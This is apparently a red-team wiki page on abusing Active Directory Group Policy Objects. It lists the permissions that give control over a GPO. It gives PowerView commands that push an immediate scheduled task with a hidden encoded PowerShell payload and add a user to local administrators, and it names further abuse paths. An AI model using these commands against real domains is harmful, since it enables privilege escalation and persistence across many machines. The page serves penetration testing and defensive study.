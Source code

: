 # Group Policy Objects \(GPOs\)

## Theory

"Group Policy" is a management feature of Active Directory. It allows admins to manage computers and users. Group Policy Objetcs \(GPOs\) make up Group Policies. GPOs are associated to AD objects \(sites, domains, organizational units \(OUs\)\).

> Group Policies can include security options, registry keys, software installation, and scripts for startup and shutdown and domain members refresh group policy settings every 90 minutes by default \(5 minutes for Domain Controllers\). This means that Group Policy enforces configured settings on the targeted computer.
>
> [adsecurity.org](https://adsecurity.org/?p=2716)

In certain scenarios, an attacker can gain control over GPOs. Some ACEs can give that control \(see [this BlackHat conf](https://www.blackhat.com/docs/us-17/wednesday/us-17-Robbins-An-ACE-Up-The-Sleeve-Designing-Active-Directory-DACL-Backdoors-wp.pdf), page 28\):

* `WriteProperty` to the `GPC-File-Sys-Path` property of a GPO \(specific GUID specified\)
* `GenericAll`, `GenericWrite`, `WriteProperty` to any property \(no GUID specified\)
* `WriteDacl`, `WriteOwner`

## Practice

GPO-based attacks can be conducted with [New-GPOImmediateTask](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\), [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) \(C\#\), or [pyGPOabuse](https://github.com/Hackndo/pyGPOAbuse) \(python\) for UNIX-like systems.

### Immediate Scheduled Task

An attacker can edit the GPO to add a scheduled task that runs instantly and removes itself after, every time Group Policy refreshes. The attacker can then gain access to all AD objects this GPO applies to.

```bash
New-GPOImmediateTask -Force -TaskName 'TaskName' -GPODisplayName 'GPODisplayName' -Command powershell -CommandArguments '-NoP -NonI -W Hidden -Enc JABXAGMA[...]BOz4=='
```

Another example of exploitation could be to add a user to the local administrators group.

```bash
New-GPOImmediateTask -Verbose -Force -TaskName 'TaskName' -GPODisplayName 'GPODisplayName' -Command cmd -CommandArguments "/c net localgroup administrators shutdown /add"
```

After a successful execution, the scheduled task can be removed with the following command.

```bash
New-GPOImmediateTask -Force -Remove -GPODisplayName 'GPODisplayName'
```

### Adding a user to the local admin group

An attacker can also add a user to the local administrator group. This can be achieved with the Group Policy Management Editor.

**Step 1**: create the user

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Create > User name: <user>`

**Step 2**: add the user to the local admin group

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Update > Group name : <Administrators> > Members: Add: <user>`

### Force Group Policy update

Domain members refresh group policy settings every 90 minutes by default but it can locally be forced with the following command: `gpupdate /force`.

### Other exploitation paths

In addition to the aforementioned exploitation paths, GPOs can be abused in other ways: leveraging logon/logoff scripts, using registry for autoruns, installing .msi, edit services and similar code execution avenues.

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/" caption="" %}

{% embed url="https://adsecurity.org/?p=2716" caption="" %}

{% embed url="https://beta.hackndo.com/gpo-abuse-with-edit-settings/" caption="" %}

